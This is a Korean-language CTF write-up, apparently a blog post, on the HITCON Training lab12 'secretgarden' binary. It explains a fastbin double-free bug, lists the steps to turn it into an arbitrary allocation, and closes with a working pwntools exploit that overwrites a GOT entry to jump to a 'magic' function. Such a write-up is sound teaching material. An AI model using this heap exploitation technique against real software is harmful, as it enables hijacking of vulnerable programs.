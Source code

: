```yaml
---
layout: post
title: "[HITCON Training] lab12"
comments : true
category : War Game
---
```


# 문제
***

secretgarden 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
secretgarden: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=22cb8aae67a3f8faed65bd339fa5b1eff20ae57d, not stripped
```

바이너리 코드

__add()__
```c
int add()
{
    ...
    size_t size; // [rbp-20h] 
    ...
    LODWORD(size) = 0;
    ...
    else
    {
        s = malloc(0x28);
        memset(s,0,0x28);
        printf("Length of the name :");
        if ((unsigned int)__isoc99_scanf("%u",&size) == -1 )
            exit(-1);
        buf = malloc((unsigned int)size);
        ...
        printf("The name of flower :")
        read(0,buf,(unsigned int)size);
        *((_QWORD *)s+1) = buf;
        printf("The color of the flower :");
        __isoc99_scanf("%23s", (char *)s+16);
        *(_DWORD *)s = 1;
        for(HIDWORD(size) = 0; HIDWORD(size) < 0x63; ++HIDWORD(size))
        {
            if (!*(&flowerlist + HIDWORD(size)))
            {
                *(&flowerlist + HIDWORD(size)) = s;
                break;
            }
        }
        ++flowercount;
        result = puts("Successful !");
    }
    ...
}
```

__del()__
```c
int del()
{
    ...
    if (flowercount)
    {
       printf("Which flower do you want to remove from the garden");
       __isoc99_scanf("%d",&v2);
       if (v2 <= 0x63 && *(&flowerlist + v2))
       {
           *(_DWORD *)*(&flowerlist + v2) = 0;
           free(*((void **)*(&flowerlist+v2)+1));
           puts("Successful");
       }
    }
    ...
}
```

64비트에서 fastbin은 0x20 - 0xb0 (16 바이트 간격) <br/>

__del()__ 함수에서는 __add()__ 함수에서 flower name을 저장하기 위해 할당한 chunk를 free 한다. 이 때 해당 chunk가 free chunk인지 검증을 하지 않고 free를 하기 때문에 fastbin_dup 취약점이 존재한다. 

## fastbin_dup 취약점
__조건__
- 동일한 크기의 fast chunk의 할당 및 free가 자유로워야 한다.
- free된 fast chunk를 한 번 더 free할 수 있어야 한다. (double free bug)
<br/>
__공격 방법__
- 동일한 크기의 chunk 3개 할당 (chunk 1,2,3)
- chunk 1 free 후 chunk 2 free
- chunk 1 다시 free
- 위의 chunk와 동일한 크기의 chunk 3개 할당
- chunk 4와 chunk 6의 주소가 동일함

## exploit 방법
1. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. (2번 반복) 
2. __del()__ 함수를 통해서 첫 번재와 두 번재로 할당받은 chunk를 free한다.
3. __del()__ 함수를 통해서 첫 번째로 할당받은 chunk를 free한다.
4. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. chunk의 앞 8바이트에 (원하는 영역 -16) 을 쓴다.
5. flower name으로 80 바이트 (0x60 바이트가 할당됨)를 할당받는다. (2번 반복)
6. 5번을 통해서 내가 원하는 영역을 chunk로 할당받을 수 있다. 

__주의할 점__ <br/>
내가 원하는 chunk를 할당받기 위해서는 (원하는 영역 -8)에 해당 chunk의 사이즈가 정확히 setting 되어 있어야 한다. 즉 위에서는 (원하는 영역 -8)에 0x60이 저장되어 있어야 한다. 근데 사이즈 체크를 할 때 하위 4바이트만 가지고 체크하는 것 같다. 이 문제에서 (원하는 영역 -8)에 0x??00000000000060이 저장되어 있는데 할당이 된다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round4/lab12/secretgarden"

def add(length,name,color):
	p.recvuntil("choice : ")
	p.send("1")
	p.recvuntil("name :")
	p.sendline(length)
	p.recvuntil("flower :")
	p.send(name)
	p.recvuntil("flower :")
	p.sendline(color)
	p.recvuntil("!\n")

def del_name(index):
	p.recvuntil("choice : ")
	p.send("3")
	p.recvuntil("garden:")
	p.sendline(index)
	p.recvuntil("Successful\n")

p=process(file_path)

got_sec=0x602002-8
magic=0x400c7b

add("80","3ffr3s","green")
add("80","w1ll_exploit","green")
#add("80","secret_garden","green")

del_name("0")
del_name("1")
del_name("0")

add("80",p64(got_sec),"ha_we")
add("80","plz!!!","ba_we")
add("80","asldkjf","123")

p.recvuntil("choice : ")
p.send("1")
p.recvuntil("name :")
p.sendline("80")
p.recvuntil("flower :")
p.send("AAAAAA"+"\x00"*8+p64(magic)*2)
p.recvuntil("flower :")
p.sendline("finish!!!")

p.interactive()
```

